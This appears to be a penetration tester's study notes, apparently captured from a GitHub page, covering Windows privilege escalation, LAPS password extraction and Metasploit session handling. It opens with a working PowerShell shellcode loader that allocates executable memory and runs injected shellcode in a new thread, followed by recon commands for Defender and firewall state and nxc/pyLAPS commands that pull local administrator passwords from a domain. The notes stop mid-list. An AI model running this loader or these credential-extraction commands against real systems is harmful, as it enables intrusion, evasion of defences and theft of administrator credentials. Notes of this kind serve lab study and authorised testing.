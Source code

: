     $code = '
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
    [DllImport("msvcrt.dll")]
    public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
    
    $winFunc = 
      Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
    
    [Byte[]];
    [Byte[]]$sc = <place your shellcode here>;
    
    $size = 0x1000;
    
    if ($sc.Length -gt 0x1000) {$size = $sc.Length};
    
    $x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
    
    for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
    
    `$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };`


### TCM Notes Windows Privesc Notes

Service Control:
- `sc query windefend` - checks Windows Defender
- `sc queryex type= service` - shows all services running on the machine

Firewalls
- check the netstat -ano to see what ports are open
- `netsh advfirewall firewall dump`
- `netsh firewall show state`
- `netsh firewall show config` - just keep these in mind, but these should be automated when looking at automated tools

## LAPS

### To get LAPS password ("ms-mcs-AdmPwd") either:
1. `nxc ldap $target -u $user -p $password --kdcHost $target -M laps`
2. `python3 pyLAPS.py --action get -u '$user' -d 'butchy.offsec' -p '$password' --dc-ip $target`
3. pyLAPS.py can also get it using NTLM (`-p NTLM:NTLM`)

## Metasploit

### Initial Usage
Selecting a module:
  - show auxiliary - shows auxiliary modules
  - search type:auxiliary smb - searches for auxiliary modules which include smb
  - info - after selecting learn more about the module
  - vulns - after running check to see if there were any discovered
  - creds - check for any creds discovered during the use of msfconsole
  - search Apache 2.4.49 - search for Apache 2.4.49 exploits
 Dealing with sessions:
  - sessions -l - list sessions 
  - sessions -i 2 - initiate session 2
Dealing with channels (meterpreter):
  - ^Z - background channel - y
  - channel -l - list channels
  - channel -i - channel -i 1
Dealing with jobs: